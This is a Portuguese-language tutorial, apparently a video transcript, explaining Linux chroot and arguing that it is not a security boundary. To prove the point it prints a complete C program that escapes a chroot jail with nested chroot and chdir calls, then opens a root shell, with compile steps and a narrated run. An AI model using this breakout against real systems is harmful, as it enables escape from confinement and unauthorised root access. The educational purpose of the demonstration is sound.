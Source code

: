 Fazendo `ls /` pra listar a raíz, cadê meu Ubuntu, cadê todos os outros diretórios? Estou preso dentro do jail, enxergando como se esta prisão fosse a raíz do sistema. Parece uma máquina virtual né? Só que não é. `chroot` literalmente quer dizer "change root" ou "mude a raíz". Ele faz o sistema operacional mentir pro meu usuário achar que a raíz do drive agora é só isso. A grosso modo, é como se eu tivesse bootado pra dentro de outra máquina, sem realmente ter feito um boot de verdade.

Eu chamei o diretório de "jail" porque neste momento meu usuário está preso dentro dessa cadeia. Ele acredita que meu HD de verdade é o que está dentro da cadeia. Por isso copiei as bibliotecas do bash e ls pra dentro, senão eles nem iam conseguir executar. Se der exit, pronto, voltamos ao normal. `ls /` agora lista minha partição de verdade.

Sei que é um pouco confuso isso, mas vocês tem que perder a noção de associar a raíz do sistema com seu HD físico. A raíz do sistema é um ponto de montagem, por acaso eu associo "/" com a partição usando o sistema de arquivos ext4, é o que tá configurado no arquivo "/etc/fstab". Mas posso mudar isso dinamicamente mesmo depois do boot. Linux é um sistema dinâmico, não pense nele como algo congelado e fixo.

Chroot é bem útil pra várias aplicações, mas um uso errado é segurança. Se procurar no Google vai achar tutoriais, por exemplo, pra fazer um usuário se conectando via SSH cair dentro de um chroot. Alguns pensam que é uma boa forma de evitar que o usuário consiga enxergar o sistema de arquivos de verdade da máquina por baixo. Uma forma de segurança. Mas chroot nunca foi projetado pra ser usado pra segurança.

Antigamente, coisa de mais de 20 anos atrás, a gente usava chroot em processos como servidor web Apache, na esperança que se o apache fosse invadido, o invasor ia cair dentro de um chroot e não ter acesso à partição toda do servidor. De novo, chroot não é mecanismo de segurança. Deixa eu provar com o tiro pode sair pela culatra. Chroot é executado como root e permanece com o setuid de root dentro. Vamos tentar estourar essa prisão. Nada nessa manga, nada nessa outra. Minto na verdade eu tenho um programinha feito em C que achei no Google. Esse aqui.

`#include <sys/stat.h>
# include <stdlib.h>
# include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
    mkdir("chroot-dir", 0755);
    chroot("chroot-dir");
    for(int i = 0; i < 1000; i++) {
        chdir("..");
    }
    chroot(".");
    system("/bin/bash");
}`

Vou compilar, copiar esse binário pra dentro do diretório jail/bin, entro no chroot de novo, estou preso, tá vendo? Não enxergo nada fora. Agora é só executar e .. boom, olha só, não só estourei pra fora do jail como invadi o usuário de root dessa máquina. Isso que se chama escalação de privilégios.
